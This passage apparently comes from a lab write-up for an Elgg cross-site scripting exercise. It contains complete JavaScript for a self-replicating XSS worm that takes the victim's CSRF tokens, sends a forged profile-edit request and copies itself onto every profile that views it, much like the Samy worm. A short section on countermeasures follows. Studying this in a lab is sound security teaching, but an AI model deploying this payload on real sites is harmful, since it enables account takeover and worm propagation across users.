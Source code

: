 The breakup of `</` and `script>` is required as the browser may distinguish it as the ending tag for the first `<script>`.

This approach can be merged with the POST exploit to copy the required update and the code itself onto the victim’s account. The transfer of all code and data in the web takes place through URLencoding in which `+` denotes a `<space>`. Therefore, instead of using `+` to add strings (concatenation), we use the `concat()` function. Also if there are any addition operations, they should be done using `a+b = a-(-b)` method.

The code clubbed with the POST exploit is as follows -

```html
<script id="daut" type="text/javascript">
var sp="<script id=\"daut\" type=\"text/javascript\">".concat(document.getElementByID("daut").innerHTML).concat("</").concat("script>");
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;
ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/".concat(elgg.session.user["username"]).concat("/edit"));
params="__elgg_ts=".concat(ts).concat("&__elgg_token=").concat(token).concat("&description=User-11-is-great")
.concat(escape(sp)).concat("&name=").concat(elgg.session.user["username"]).concat("&accesslevel[description]=2&guid=")
.concat(elgg.session.user["guid"]);
ff.send(params);
</script>
```

The `escape()` function converts the inner strings to URLencoding for http transfer. Now when a user views the profile of `user11`, the user’s account will have its ‘about me’ section set to “User-11-is-great”. Also the code itself will be copied to the user’s page. Also now since the code is in the user’s page, whenever a user views the account of this user, the code will get executed and the new user will also have his account modified. The add friend exploit can also e added to the above code as a new XMLHttpRequest part. That code will become the exact replica of the famous Samy’s worm attack of 2005.

## Task 7 : Countermeasures

Elgg does have a built in countermeasures to defend against the XSS attack. The countermeasures have been deactivated and commented out to make the attack work. There is a custom built security plugin `HTMLawed` 1.8 on the Elgg web application which on activation, validates the user input and removes the tags from the input. This specific plugin is registered to the function `filter_tags` in the `elgg/ engine/lib/input.php` file. To turn on the countermeasure, we login to the application as admin, go to administration > plugins, and select security and spam in the dropdown menu. The `HTMLawed 1.8` plugin is below. This can now be activated. In addition to this, there is another built-in PHP method called `htmlspecialchars()`, which is used to encode the special characters in the user input, such as encoding `"<"` to `&lt`, `">"` to `&gt`, etc. Go to the directory `elgg/views/default/output` and find the function call `htmlspecialchars` in `text.php`, `tagcloud.php`, `tags.php`, `access.php`, `tag.php`, `friendlytime.php`, `url.php`, `dropdown.php`, `email.php` and `confirmlink.php` files. Uncomment the corresponding `htmlspecialchars` function calls in each file.
